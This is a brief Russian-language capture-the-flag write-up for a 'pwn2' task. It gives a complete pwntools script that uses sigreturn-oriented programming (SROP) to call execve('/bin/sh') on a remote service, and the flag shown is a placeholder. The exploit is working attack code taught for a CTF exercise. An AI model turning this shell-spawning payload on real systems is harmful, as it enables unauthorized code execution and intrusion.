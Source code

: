 # pwn2

Закидываем программу в дизассемблер, видим только вызов syscall()

Очень похоже, что мы должны использовать тактику SROP!

Напишем скрипт под это дело:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = remote("192.168.12.13", 1555)

BINSH = elf.address + 0x1238
POP_RAX = 0x10000018
SYSCALL_RET = 0x10000015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Получим флаг: `nto{ТАСК_ЛЕЖАЛ_НА_МОМЕНТ_РАЙТАПА_ЗАМЕНИМ}`
